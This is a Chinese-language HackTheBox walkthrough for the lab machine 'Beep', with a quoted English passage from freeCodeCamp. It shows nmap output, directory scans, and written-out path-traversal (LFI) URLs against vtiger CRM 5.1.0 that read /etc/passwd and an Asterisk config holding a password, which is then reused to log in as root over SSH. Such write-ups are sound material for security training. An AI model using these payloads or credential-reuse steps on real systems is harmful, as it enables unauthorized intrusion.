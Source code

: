# Beep

- **Beep是hackthebox的一台简单的靶机**

- 首先使用nmap查看端口的开放情况和漏洞

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A 10.10.10.7                                              130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-13 05:10 EDT
Nmap scan report for 10.10.10.7
Host is up (0.27s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: RESP-CODES TOP UIDL STLS USER APOP LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE EXPIRE(NEVER) PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            877/udp   status
|_  100024  1            880/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: SORT=MODSEQ UNSELECT STARTTLS X-NETSCAPE THREAD=ORDEREDSUBJECT IMAP4rev1 ANNOTATEMORE LIST-SUBSCRIBED THREAD=REFERENCES NO RENAME UIDPLUS ACL OK RIGHTS=kxte LISTEXT IDLE SORT MAILBOX-REFERRALS Completed IMAP4 BINARY CONDSTORE CATENATE ATOMIC ID MULTIAPPEND QUOTA CHILDREN LITERAL+ URLAUTHA0001 NAMESPACE
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-10-13T09:13:57+00:00; +1s from scanner time.
880/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
.
```

- 浏览器打开https://10.10.10.7

![image-20211013195748932](http://cdn.mxrblog.cn/image-20211013195748932.png)

- dirsearch扫描靶机的80端口,http://10.10.10.7，尝试了一遍，没有什么有价值的东西

![image-20211013195614708](http://cdn.mxrblog.cn/image-20211013195614708.png)

- gobuster扫描一下443端口下的：https://10.10.10.7

![image-20211013195926332](http://cdn.mxrblog.cn/image-20211013195926332.png)

- 分别用浏览器查看这几个目录
- /admin

![image-20211013200433818](http://cdn.mxrblog.cn/image-20211013200433818.png)

- /configs

![image-20211013200524407](http://cdn.mxrblog.cn/image-20211013200524407.png)

- /vtigercrm

![image-20211013200621752](http://cdn.mxrblog.cn/image-20211013200621752.png)

- 当浏览到/vtigercrm目录时，我发现页面右下角显示了一个版本序列号



![image-20211013200728994](http://cdn.mxrblog.cn/image-20211013200728994.png)

- 使用searchsploit vtiger CRM 5.1.0 查看是否存在漏洞

![image-20211013200841109](http://cdn.mxrblog.cn/image-20211013200841109.png)

- 查看漏洞文件都说了些什么
- 提示说有LFI （文件包含漏洞）

![image-20211013201003369](http://cdn.mxrblog.cn/image-20211013201003369.png)

- 在浏览器中打开上面说的地址

```
https://1/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

### 解法一

- 由于上面的过程最后会有不同的解法，再次给出多种答案：
- 打开10.10.10.7页面（之前打开过），会发现一个名为elastix的引擎软件，使用searchsploit查看是否有漏洞
- ![image-20211014000459211](http://cdn.mxrblog.cn/image-20211014000459211.png)

- 使用上面显示的LFI漏洞

![image-20211014001221868](http://cdn.mxrblog.cn/image-20211014001221868.png)

- 使用浏览器查看

![image-20211014001919589](http://cdn.mxrblog.cn/image-20211014001919589.png)

- 发现用户名与密码

```
admin
jEhdIekWmdjE
```

- 使用ssh尝试连接

![image-20211014002859642](http://cdn.mxrblog.cn/image-20211014002859642.png)

- 登不上，百度后找到了解决的办法

![image-20211014003304538](http://cdn.mxrblog.cn/image-20211014003304538.png)

- 开始尝试登录
- 第一次使用用户名为admin登录发现无法登录用户名不匹配
- 第二次将用户名改为root用户，然后成功
- 总结：多尝试，多百度，胆要肥

![image-20211014003809769](http://cdn.mxrblog.cn/image-20211014003809769.png)

- 获得root.txt和user.txt

![image-20211014004036947](http://cdn.mxrblog.cn/image-20211014004036947.png)



### 解法二

- **[参考链接](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-beep/)**

- 第一种解法有点意外，毕竟这个密码我们是得到了，但是却无法猜到是root用户的密码，这样我们就拿不到flag

I also do some research on **default credentials** for vTiger and find some documentation around installing **vTiger Asterisk Connector**

![img](https://www.freecodecamp.org/news/content/images/2019/09/Screenshot-2019-09-01-at-20.44.49.png)https://www.vtiger.com/docs/asterisk-integration

If we modify the previous URL to

```url
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/asterisk/manager.conf%00
```

I navigate to this page (using source code to prettify the output)

![img](https://www.freecodecamp.org/news/content/images/2019/09/Screenshot-2019-09-03-at-00.55.05.png)https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/asterisk/manager.conf%00

I find a password **jEhdIekWmdjE**
